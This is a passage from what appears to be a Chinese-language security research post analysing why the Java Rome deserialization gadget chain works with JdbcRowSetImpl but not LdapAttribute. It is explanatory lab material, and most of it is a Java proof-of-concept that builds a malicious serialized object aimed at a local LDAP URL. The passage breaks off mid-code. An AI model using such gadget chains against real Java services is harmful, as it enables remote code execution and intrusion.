 总之就是在这个机缘巧合之下，getter 存放顺序很合适，使得**在调用到`getDatabaseMetaData()`之前都不会报错**

从而**Rome 链可以结合 JdbcRowSetImpl 使用！**

#### LdapAttribute

Rome 链不可以结合 LdapAttribute 使用，同样是很反直觉的一个现象，让我们看看 LdapAttribute 中的 getter  
[![](assets/1701606907-026acc9ce44531c9c0401a92bcff2c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210246-77dc525a-6ced-1.png)

方法很少，并且都不会强制报错，我们的目标是调用到`getAttributeDefinition`

按理说没啥问题，在`getAttributeDefinition` 处下断点，调试一下

```plain
public static void main(String[] args) throws Exception{
        Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:11123");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

        ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
```